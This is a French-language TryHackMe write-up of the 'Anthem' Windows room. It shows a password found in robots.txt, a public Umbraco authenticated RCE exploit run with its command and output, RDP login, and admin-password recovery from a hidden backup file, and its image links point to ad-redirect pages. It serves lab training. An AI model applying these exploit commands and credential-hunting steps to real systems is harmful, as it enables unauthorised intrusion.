 ```yaml
---
title: Anthem - TryHackMe
date: 2024-04-27 00:52:30 -0500
description: Anthem sur TryHackMe est une machine Windows facile pour les débutants. L'exploitation implique la découverte de mots de passe dans des fichiers web, l'accès à un CMS Umbraco, l'utilisation d'un exploit RCE pour obtenir un shell, et la recherche et l'utilisation d'un mot de passe administrateur pour l'escalade de privilèges.
categories: [TryHackMe]
tags: [THM, CTFs, Hacking]
image:
    path: https://i.ibb.co/fqf0HnY/Copie-de-Manager-1.png
---
```



- **[The Best Academy to Learn Hacking](https://affiliate.hackthebox.com/nenandjabhata)**.
- **[Beginner Friendly challenges on TryHackMe](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.


## Reconnaissance
Avec un petit scan de nmap, je trouve ces 2 ports qui sont ouvert
```terminal
└─# /home/blo/tools/nmapautomate/nmapauto.sh $ip
Scanning 10.10.26.182 [65535 ports]
Discovered open port 3389/tcp on 10.10.26.182
Discovered open port 80/tcp on 10.10.26.182
```
- RDP ouvert sur le 3389
- Un site Web Disponible sur le port 80

Dans le site web je trouve le fichier `/robots.txt` qui contient un mot de passe `UmbracoIsTheBest!`, Donc alors maintenant il faut trouver un utilisateur pour ce mot de passe
- Dans le Blog je trouve un poeme avec les mots suivantes:
```
Born on a Monday,
Christened on Tuesday,
Married on Wednesday,
Took ill on Thursday,
Grew worse on Friday,
Died on Saturday,
Buried on Sunday.
That was the end…       
```
Je copie ce texte et je fais une recherche sur Google, puis je trouve que l'utilisateur qui a fait le poem s'appelle `Solomon Grundy` en faisant reference au mail qui se trouve dans le [We are Hiring](http://10.10.74.33/archive/we-are-hiring/) qui est : `JD@anthem.com`, c'est a dire que c'est l'email de `Jane Doe`, alors le meme cas ici c'est de prendre les premieres lettre de l'utilisateur `Solomon Grundy` et ce sera `SG@anthem.com` et d'acceder avec le mot de passe `UmbracoIsTheBest!` que j'avais deja trouver

### L'acces Initial
Ok, maintenant j'ai un acces administrateur sur le CMS.
>Chaque fois que je trouve un CMS, je commence toujours par checker sur Google pour des exploits
>{: .prompt-info}

Alors en faisant quelque recherches je trouve un Exploit sur Github [Umbraco-RCE) Remote Code Execution ](https://github.com/noraj/Umbraco-RCE)
[![exploit](https://i.ibb.co/9T90bDT/exploit.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}
L'exploit fonctionne, alors je vais lister les fichiers disponibles avec `powershell` et la commande `ls`
```sh
└─# python3 umbraco.py -u SG@anthem.com -p 'UmbracoIsTheBest!' -i http://10.10.74.33/ -c powershell.exe -a 'ls'


    Directory: C:\windows\system32\inetsrv


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       05/04/2020     21:51                Config                                                                
d-----       05/04/2020     21:51                de-DE                                                                 
d-----       05/04/2020     11:27                en                                                                    
d-----       05/04/2020     11:27                en-US                                                                 
d-----       05/04/2020     21:51                es-ES                                                                 
d-----       05/04/2020     21:51                fr-FR                                                                 
d-----       05/04/2020     21:51                it-IT                                                                 
d-----       05/04/2020     21:51                ja-JP                                                                 
d-----       05/04/2020     21:51                ko-KR                                                                 
d-----       05/04/2020     21:51                ru-RU                                                                 
d-----       05/04/2020     21:51                zh-CN                                                                 
d-----       05/04/2020     21:51                zh-TW                                                                 
-a----       05/04/2020     11:27         119808 appcmd.exe                                                            
-a----       15/09/2018     08:14           3810 appcmd.xml                                                            
-a----       05/04/2020     11:27         181760 AppHostNavigators.dll                                                 
-a----       05/04/2020     11:26          80896 apphostsvc.dll                                                        
-a----       05/04/2020     11:27         406016 appobj.dll                                                            
-a----       05/04/2020     11:26         131072 aspnetca.exe                                                          
-a----       05/04/2020     11:27          40448 authanon.dll                                                          
-a----       05/04/2020     11:26          24064 cachfile.dll                                                          
```

D'ici on peux creer un shell en `.ps1`, puis la mettre sur la machine et d'avoir un Shell. Mais aussi comme le RDP est deja ouvert, alors je vais voir quels sont les utilisateurs disponible

```sh
└─# xfreerdp /v:10.10.77.208 /u:SG /p:UmbracoIsTheBest! /sec:tls
[01:11:11:148] [31485:31486] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[01:11:11:148] [31485:31486] [WARN][com.freerdp.crypto] - CN = WIN-LU09299160F
[01:11:19:471] [31485:31486] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[01:11:19:472] [31485:31486] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
```

[![user.txt](https://i.ibb.co/FwwBvdk/a1.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}
Je trouve le flag user dans le Bureau `THM{NOOT_NOOT}`

## Privilege Escalation
Maintenant finit avec le user, il faut donc elever nos privilege et etre root sur la Machine.
Dans la room, on me donne un hint sur le mot de passe de l'admin en disant `it's hidden`. Alors je vais afficher tous les fichiers cachee sur la machine

[![Hidden Files](https://i.ibb.co/sRCWFsd/a2.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}

En revenant a mon `C:\` je trouve un nouveau Dossier qui s'appel `backup` et un fichier `restore`.
[![backup](https://i.ibb.co/GpPw2V4/a3.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}

J'avais pas les permissions necessaires pour ouvrir ce fichier, donc j'ai pu le modifier dans les proprietes et ensuite j'affiche le contenue :

[![Admin Pass](https://i.ibb.co/2FwSswt/a4.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}

J'utilise comme le mot de passe administrator pour me connecter au `cmd` et ca marche :

[![Rooted](https://i.ibb.co/g4D8Wqr/a5.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}



## Ressources supplementaires
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
[Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution ](https://www.exploit-db.com/exploits/46153)
[Nishang PowerShells](https://github.com/samratashok/nishang/tree/master/Shells)
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).
